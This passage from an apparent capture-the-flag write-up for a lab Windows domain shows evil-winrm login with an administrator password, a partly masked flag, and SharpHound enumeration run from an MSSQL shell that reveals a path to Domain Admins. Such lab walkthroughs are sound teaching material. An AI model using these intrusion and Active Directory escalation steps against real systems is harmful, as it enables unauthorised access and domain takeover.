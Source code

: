 
Now connect:

    
    
    root@kali# evil-winrm -i compatibility -u administrator -p 'EverybodyWantsToWorkAtP.O.O.'
    
    Evil-WinRM shell v2.3
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    compatibility\administrator
    

The fourth flag is on the desktop:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\desktop> cat flag.txt
    POO{ff87c4fe************************}
    

## p00ned

### SharpHound

Given this is an active directory environment, and I’m looking to pivot, I’ll
want to run Bloodhound. I uploaded it using the WinRM access, but I need to
run it from a domain account. Luckily, I have code execution as the service
accounts in MSSQL, which are domain accounts, so I can run it from there.

_Note: If you read inBeyond Root about the extra long route I took to get a
shell, one thing I did was use a Python script that connects to MSSQL and
simulates an interactive shell. That shell will show up here when I run things
from there._

I’ll run SharpHound from the MSSQL shell:

    
    
    C:\Users\MSSQL$~1\AppData\Local\Temp>.\sh.exe
    Initializing BloodHound at 1:18 PM on 2/18/2019
    Resolved Collection Methods to Group, LocalGroup, Session, Trusts
    Starting Enumeration for intranet.poo
    Status: 61 objects enumerated (+61 4.692307/s --- Using 31 MB RAM )
    Finished enumeration for intranet.poo in 00:00:13.0647650
    0 hosts failed ping. 0 hosts timedout.
    
    Compressing data to .\20190218131831_BloodHound.zip.
    You can upload this file directly to the UI.
    Finished compressing files!
    

I’ll download the file, and load it into BloodHound. If I run the search
“Shortest Paths to Domain Admin from Kerberoastable Users”, I can see that
P00_ADM@INTRANET.POO is a member of P00 HELP DESK@INTRANET.POO which has
GenericAll over DOMAIN ADMINS@INTRANET.POO:

![image-20200606143224437](https://0xdfimages.gitlab.io/img/image-20200606143224437.png)
